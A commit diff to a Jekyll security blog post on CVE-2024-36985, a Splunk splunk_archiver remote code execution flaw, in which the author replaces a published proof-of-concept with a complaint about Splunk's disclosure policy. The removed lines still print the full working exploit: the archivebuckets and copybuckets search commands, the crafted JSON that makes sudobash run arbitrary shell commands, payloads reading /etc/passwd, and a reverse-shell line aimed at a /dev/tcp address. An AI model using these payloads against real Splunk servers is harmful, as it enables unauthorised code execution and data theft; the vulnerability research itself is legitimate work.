

Before and after one commit to psytester/psytester.github.io, a Jekyll site: the page built from _posts/hacking_and_pentests/2024-09-13-CVE-2024-36985_SPLUNK_RCE_PoC.md, in a window 1280 px wide and 1400 px high, scrolled down 409 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1730 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2024-09-13-CVE-2024-36985_SPLUNK_RCE_PoC.md

````diff
--- a/_posts/hacking_and_pentests/2024-09-13-CVE-2024-36985_SPLUNK_RCE_PoC.md
+++ b/_posts/hacking_and_pentests/2024-09-13-CVE-2024-36985_SPLUNK_RCE_PoC.md
@@ -2,162 +2,54 @@
 layout: post
 title:  "CVE-2024-36985 Splunk Remote Code Execution through lookup in splunk_archiver application, my PoC exploit"
 datetime: 2024-09-14 01:00:00 MEST
-last_modified_at: 2024-09-14 01:00:00 MEST
+last_modified_at: 2024-09-18 23:30:00 MEST
 author: 'psytester'
 ---
 
 This time I have analyzed the vulnerability of [CVE-2024-36985](https://www.cve.org/CVERecord?id=CVE-2024-36985) Remote Code Execution in Splunk splunk_archiver App.<br>
-`The “splunk_archiver“ application likely contains a script called “copybuckets.py“ that itself references a file called “erp_launcher.py“, which would likely execute a script called “sudobash“.`<br>
-I checked the vulnerability how a (low-privileged) Splunk user can do this RCE and I'm happy to publish my working PoC exploit.<br>
 
-The complete diff does not looks like the key, but at the end it was the simple fix to avoid the RCE
+The research was only to force my IT department to do they job and for me to learn much more.<br>
+
+Security vulnerabilities are often abstract and if you can't see how easy some of them are to exploit, you can't raise awareness.<br>
+It's actually hard to argue sometimes: Please do the update because there seem to be vulnerabilities.<br>
+But it is very easy if you can say: Look this vulnerability is just as easy to exploit.<br>
+That shortens many discussions extremely.<br>
+
+Now I'm pissed off for Splunk Inc.
+
+![Speleologist forbidden](https://psytester.github.io/images/HTTP_403.jpg)
+
+~~13. Sep. 2024 Here is my exploit.~~ 18. Sep. 2024 Here **was** my exploit!
+
+Ouch, where did the article disappear to?<br>
+Apparently, by creating two reports via Hackerone, I agreed to Splunk's terms and conditions.<br>
+They say.<br>
+Yes, Splunk's landing page for reporting vulnerabilities refers to they GTC agreement.<br>
+
+Both reports where closed as informational only, although the first one can be used to create a user-controlled shell script for another vulnaribility<br>
+and the second was an step further but rejected because my "attack scenario requires misconfiguration"
+
+What happens behind the stage? Splunk states to me
 ```
-diff /opt/splunk-9.1.4/ /opt/splunk-9.1.5/
+Splunk does not allow researchers to disclose contents of any submission without explicit Splunk authorization
 
-/opt/splunk-9.1.4/bin/jars/sudobash /opt/splunk-9.1.5/bin/jars/sudobash
-172a173,175
-> else
->     log "Providers other than SplunkMR not supported."
->     exit 1
+Disclosure Policy
+While we encourage you to discover and report to us any vulnerabilities found in a responsible manner, the following conduct is expressly prohibited and will result in possible legal action against you:
+Disclosing any vulnerabilities or suspected vulnerabilities discovered to any other person or organization without explicit Splunk authorization;
+Disclosing the contents of any submission without explicit Splunk authorization;
+[....]
 ```
 
-# The goal
-We need to call `sudobash` with our payload beacuse of its internal `/bin/bash <command>`. That's simple, because there is a advisory for it.<br>
-Nice joke<br>
+I agree to first sentence for my reports, as usual!<br>
+Is this valid for research work on exploits for Splunk's advisory?
 
-# The Problem
-## 1. Problem
-`copybuckets.py` is referenced here: [https://docs.splunk.com/Documentation/Splunk/9.1.4/Indexer/HowHadoopDataRollworks](https://docs.splunk.com/Documentation/Splunk/9.1.4/Indexer/HowHadoopDataRollworks)<br>
-The page gives no detailed information about lookups `| archivebuckets` and `| copybuckets` :-(<br>
-## 2. Problem
-The user account needs at lease `splunk-system-role` rights, not only `user`
-## 3. Problem
-   In `/opt/splunk/etc/apps/splunk_archiver/bin/erp_launcher_duplicate.py` a variable is constructed
-```
-SUDO_BASH_COMMAND = os.path.join(os.environ['SPLUNK_HOME'], 'etc', 'apps', 'splunk_archiver', 'java-bin', 'jars', 'sudobash')
-```
-   `SUDO_BASH_COMMAND` pointing to `/opt/splunk/etc/apps/splunk_archiver/java-bin/jars/sudobash`<br>
+I have not found this chapter despite searching on their site or search engine.<br>
+But ok, I follow the rules and I don't need any legal dispute.<br>
 
-   Ohh no, a fresh installed Splunk instance does not have this required `sudobash` bash file at its location :-(<br>
-   There is a file located here only `/opt/splunk/bin/jars/sudobash`<br>
-   Too bad?<br>
-## 4. Problem
-The `| copybuckets` lookup does nothing, but some error results of search can be found in `SID`related `search.log`
-```
-find /opt/splunk/var/run/splunk/dispatch/ -name "search.log" |xargs ls -ltr
-less /opt/splunk/var/run/splunk/dispatch/1726261594.102/search.log
+Lessons learned the hard way. Next time I will think twice to report to such VDP program.<br>
+They don't need me, I don't need them.
 
-09-13-2024 23:06:34.254 ERROR ScriptRunner [138430 StreamScriptThreadfor/opt/splunk-9.1.4/etc/apps/splunk_archiver/bin/copybuckets.py] - stderr from '/opt/splunk-9.1.4/bin/python3.7 /opt/splunk-9.1.4/etc/apps/splunk_archiver/bin/copybuckets.py':      jsonStr = sys.argv[1:][0].split("=",1)[1]
-09-13-2024 23:06:34.254 ERROR ScriptRunner [138430 StreamScriptThreadfor/opt/splunk-9.1.4/etc/apps/splunk_archiver/bin/copybuckets.py] - stderr from '/opt/splunk-9.1.4/bin/python3.7 /opt/splunk-9.1.4/etc/apps/splunk_archiver/bin/copybuckets.py':  IndexError: list index out of range
-```
-Ok, it needs some Json input. After debugging and playing a lot, it was clear what kind of Json is required.<br>
-We need some special structure and values, required to pass the checks in `copybuckets.py` and `erp_launcher_duplicate.py` and to provide our payload.<br>
-
-Ok, let's dig deeper. After playing around with both lookups, they work in this way.<br>
-
-# The attack chain
-## 1. We need the `sudobash` file
-You may wait until this archivebuckets job was done somehow internally by a cron job, but I did not test this.<br>
-We manually triggering the setup to have the file copied
-```
-| archivebuckets forcerun=1
-```
-Now we have `/opt/splunk-9.1.4/etc/apps/splunk_archiver/java-bin/jars/sudobash`<br>
-That's it :-)<bR>
-
-That's because archivebuckets.py calls `vixutils.copyJars()` in /opt/splunk/etc/apps/splunk_archiver/bin/vixutils_duplicate.py to copy files from `/opt/splunk/bin/jars/` into `appbinjars`
-```
-def _copyJars(splunkhome, appbinjars):
-    splunkjars = os.path.join(splunkhome, 'bin', 'jars')
-    dir_util.copy_tree(splunkjars, appbinjars, update=1, verbose=0)
-    _trimDirToTemplate(splunkjars, appbinjars)
-```
-
-## 2. Calling `| copybuckets` with json data
-We need to give at least one virtual index provider in `vixes`:
-```
- \"vixes\":{
-  \"vix1\": {\"provider\": \"psytester's PoC\"}
- },
-```
-We need to call `/opt/splunk/etc/apps/splunk_archiver/java-bin/jars/sudobash` in `providers` as `command`
-And the path has to match `SUDO_BASH_COMMAND`!
-```
-  \"providers\": {
-  \"providerparam\":{
-   \"command.arg.1\":\"/opt/splunk/etc/apps/splunk_archiver/java-bin/jars/sudobash\",
-   ....
-```
-and finally we need to pass our payload command `id` as additional `command` and optionally we can pass system environments by `env.`<br>
-We combine both, but it's not required.
-```
-   \"command.arg.2\":\"-c $SOME_ENV\",
-   \"env.SOME_ENV\":\"id\"
-  }
- }
-```
-At the end we call `/opt/splunk/etc/apps/splunk_archiver/java-bin/jars/sudobash -c id`<br>
-which will become internally `/bin/bash -c id`
-
-# The PoC
-## First, one step back!
-The final payload structure
-```
-| copybuckets json="{
- \"vixes\":{
-  \"vix1\": {\"provider\": \"psytester's PoC\"},
-  \"vix2\": {\"provider\": \"another provider\"}
- },
-  \"providers\": {
-  \"providerparam\":{
-   \"command.arg.1\":\"/opt/splunk/etc/apps/splunk_archiver/java-bin/jars/sudobash\",
-   \"command.arg.2\":\"-c $SOME_ENV\",
-   \"env.SOME_ENV\":\"id\"
-  }
- }
-}"
-```
-gives back in Events table an error in my case:
-```
-traceback"="Traceback (most recent call last):
-  File \"/opt/splunk-9.1.4/lib/python3.7/site-packages/splunk/vix/erp_launcher.py\", line 426, in launchSplunkMRForIndexes
-    _executeJavaProcesses(action, logFileName, indexFilterFunc, providers, vixes, indexes, serverId, serverName, sessionKey)
-  File \"/opt/splunk-9.1.4/lib/python3.7/site-packages/splunk/vix/erp_launcher.py\", line 161, in _executeJavaProcesses
-    if not c.startswith(command_prefixes) or not c.endswith('sudobash'):
-TypeError: tuple for startswith must only contain str, not function
-```
-The error text helps us to solve the problem and question where splunk is installed.
-Error message is pointing to `/opt/splunk-9.1.4/lib/python3.7/site-packages/splunk/vix/erp_launcher.py`,<br>
-thus our final sudobash path will be `/opt/splunk-9.1.4/etc/apps/splunk_archiver/java-bin/jars/sudobash`
-
-## Working PoC exploit payload
-```
-| copybuckets json="{
- \"vixes\":{
-  \"vix1\": {\"provider\": \"psytester's PoC\"},
-  \"vix2\": {\"provider\": \"another provider\"}
- },
-  \"providers\": {
-  \"providerparam\":{
-   \"command.arg.1\":\"/opt/splunk-9.1.4/etc/apps/splunk_archiver/java-bin/jars/sudobash\",
-   \"command.arg.2\":\"-c $SOME_ENV\",
-   \"env.SOME_ENV\":\"id\"
-  }
- }
-}"
-```
-
-You can change the content of `env.SOME_ENV` to your needs, but shell calls with spaces do not work.<br>
-[hacktricks bypass-forbidden-spaces](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-forbidden-spaces) was my help<br>
-Working payload are:
-```
-\"env.SOME_ENV\":\"id\"
-\"env.SOME_ENV\":\"{touch,/tmp/exploited}\"
-\"env.SOME_ENV\":\"{cat,/etc/passwd}\"
-```
-A reverse shell by `-l > /dev/tcp/192.168.4.107/4242 0<&1 2>&1` does not work, but there is another working case. Belive me :-)
-
-Thank you for reading. The CVE is not my credit, but the work on the PoC exploit is powered by psytester, this post was only for my private fun. ;-)
+I will update this blog entry if I got the url pointing to this chapter.
 
 # Disclaimer
 
````
